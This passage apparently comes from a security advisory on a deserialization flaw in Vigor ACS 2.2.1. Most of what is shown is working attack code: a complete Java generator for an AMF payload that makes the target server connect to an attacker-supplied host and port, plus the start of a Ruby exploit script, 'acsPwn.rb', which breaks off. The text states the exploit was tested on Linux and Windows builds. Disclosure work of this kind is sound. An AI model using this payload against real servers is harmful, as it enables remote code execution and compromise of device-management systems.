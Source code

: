 The exploit has been tested against the Linux and Windows Vigor ACS 2.2.1, although it requires a ysoserial jar patched for multi argument handling (a separate branch in [7], or alternative a ysoserial patched with CommonsCollections5Chained or CommonsCollections6Chained – see [8]).

Appendix A contains the Java code used to generate the AMF payload that will be sent in step a). This code is very similar to the one in [5], and it is highly recommended to read that advisory by Markus Wulftange of Code White for a better understanding of this vulnerability.

**Appendix A**<br>
```java
import flex.messaging.io.amf.MessageBody;
import flex.messaging.io.amf.ActionMessage;
import flex.messaging.io.SerializationContext;
import flex.messaging.io.amf.AmfMessageSerializer;
import java.io.*;
public class ACSFlex {
    public static void main(String[] args) {
        Object unicastRef = generateUnicastRef(args[0], Integer.parseInt(args[1]));
        // serialize object to AMF message
        try {
            byte[] amf = new byte[0];
            amf = serialize((unicastRef));
            DataOutputStream os = new DataOutputStream(new FileOutputStream(args[2]));
            os.write(amf);
            System.out.println("Done, payload written to " + args[2]);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    public static Object generateUnicastRef(String host, int port) {
        java.rmi.server.ObjID objId = new java.rmi.server.ObjID();
        sun.rmi.transport.tcp.TCPEndpoint endpoint = new sun.rmi.transport.tcp.TCPEndpoint(host, port);
        sun.rmi.transport.LiveRef liveRef = new sun.rmi.transport.LiveRef(objId, endpoint, false);
        return new sun.rmi.server.UnicastRef(liveRef);
    }
    public static byte[] serialize(Object data) throws IOException {
        MessageBody body = new MessageBody();
        body.setData(data);
        ActionMessage message = new ActionMessage();
        message.addBody(body);
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        AmfMessageSerializer serializer = new AmfMessageSerializer();
        serializer.initialize(SerializationContext.getSerializationContext(), out, null);
        serializer.writeMessage(message);
        return out.toByteArray();
    }
}
```

**acsPwn.rb**<br>
```rb
#!/usr/bin/ruby
=begin
===
acsFlex.jar:
import flex.messaging.io.amf.MessageBody;
import flex.messaging.io.amf.ActionMessage;
import flex.messaging.io.SerializationContext;
import flex.messaging.io.amf.AmfMessageSerializer;
import java.io.*;
public class ACSFlex {
    public static void main(String[] args) {
        Object unicastRef = generateUnicastRef(args[0], Integer.parseInt(args[1]));
        // serialize object to AMF message
```